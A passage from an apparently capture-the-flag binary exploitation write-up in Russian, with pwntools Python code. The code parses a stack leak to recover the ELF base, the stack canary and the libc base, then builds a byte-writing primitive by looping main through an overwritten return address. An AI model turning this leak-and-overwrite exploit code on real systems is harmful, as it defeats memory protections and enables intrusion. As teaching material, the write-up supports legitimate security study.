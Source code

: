 После передвижения указателя мы сможем ликнуть данные лежащие на стеке после этого указателя. Надо только правильно обработать их. Код для обработки лика представлен ниже. 
```python
leak = b''
for i in range(1000000000):
    part = r.recv(1024, timeout = 1.5)
    leak += part

    if len(part) == 0:
        break

buffer = []

for i in range(256):
    buffer.append(leak.count(i))

data = bytes(buffer)
elf_base = pwn.u64(data[0:8]) - 0xd98
canary = pwn.u64(data[8:16])
libc_base = pwn.u64(data[40:48]) - 0x2a1ca

print(f'elf_base % 0x{elf_base:X}')
print(f'canary % 0x{canary:X}')
print(f'libc_base % 0x{libc_base:X}')
```

В итоге мы получим адрес `libc` и сможем переписать адрес возврата из `main` на любой другой адрес. 

Но для того, чтобы записать произвольное количество байт на стек нам нужен примитив который может писать любой байт. Так как ввод ограничен необходимо зациклить программу. Это можно сделать перезаписью адреса возврата из `sort` на начало `main`.

Реализуем это в виде отдельной функции которая выставляет необходимый байт.
```python
def set_byte(offset, value):
    payload = [-15] + [0x18] * (0x100 - 0xbc + 0xa8) + [0x28 + offset] * value
    payload = [x & 0xFF for x in payload]

    assert len(payload) < 512

    pwn.sleep(0.2)

    r.send(bytes(payload))

    leak = b''
    for i in range(100000):
        part = r.recv(1024, timeout = 0.2)
        leak += part

        if len(part) == 0:
            break

    print(f'[{offset}] => {hex(value)} ({len(payload)})')
```
